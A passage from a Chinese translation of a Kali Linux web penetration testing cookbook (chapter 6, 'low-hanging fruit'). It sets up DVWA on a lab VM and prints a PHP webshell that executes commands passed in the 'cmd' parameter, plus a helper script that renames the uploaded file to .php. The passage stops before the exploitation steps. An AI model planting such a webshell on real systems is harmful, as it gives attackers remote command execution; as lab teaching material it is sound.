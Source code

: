 ```yaml
---
title: "Kali Linux Web 渗透测试秘籍 第六章 利用 -- 低悬的果实"
id: csdn52840214
---
```


# 第六章 利用 – 低悬的果实

> 作者：Gilberto Najera-Gutierrez
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

这章开始我们会开始涉及渗透测试的的利用层面。和漏洞评估的主要不同是，漏洞评估中测试者识别漏洞（多数时间使用自动化扫描器）和提出如何减轻它们的建议。而渗透测试中测试者作为恶意攻击者并尝试利用检测到的漏洞，并得到最后的结果：整个系统的沦陷，内部网络访问，敏感数据泄露，以及其它。同时，要当心不要影响系统的可用性或者为真正的攻击者留下后门。

之前的章节中，我们已经涉及了如何检测 Web 应用中的一些漏洞。这一章中我们打算了解如何利用这些漏洞并使用它们来提取信息和获得应用及系统受限部分的访问权。

## 6.1 恶意使用文件包含和上传

我们在第四章中看到，文件包含漏洞在开发者对生成文件路径的输入校验不当，并使用该路径来包含源代码文件时出现。服务端语言的现代版本，例如 PHP 自 5.2.0 起，将一些特性默认关闭，例如远程文件包含，所以 2011 年起就不大可能找到 RFI 了。

这个秘籍中，我们会上传一些恶意文件，其中之一是 Webshell（可用于在服务器中执行命令的页面），之后使用本地文件包含来执行它。

### 准备

这个秘籍中，我们会使用 vulnerable_vm 中的 DVWA ，并以中等安全级别配置，所以让我们将其配置起来。

1.  访问`http://192.168.56.102/dvwa`。

2.  登录。

3.  将安全级别设置为中。访问`DVWA Security`，在组合框中选择`medium`并点击`Submit`。

我们会上传一些文件给服务器，但是你需要记住它们储存在哪里，以便之后调用。所以，在 DVWA 中访问`Upload`并上传任何 JPG 图像。如果成功了，他会告诉你文件上传到了`../../hackable/uploads/`。现在我们知道了用于储存上传文件的相对路径。这对于秘籍就足够了。

我们也需要准备好我们的文件，所以让我们创建带有一下内容的文本文件：

```
<? 
system($_GET['cmd']); 
echo '<form method="post" action="../../hackable/uploads/webshell. php"><input type="text" name="cmd"/></form>'; 
?>
```

将其保存为`webshell.php`。我们需要另一个文件，创建`rename.php`并输入下列代码：

```
<? 
system('mv ../../hackable/uploads/webshell.jpg ../../hackable/uploads/ webshell.php'); 
?>
```
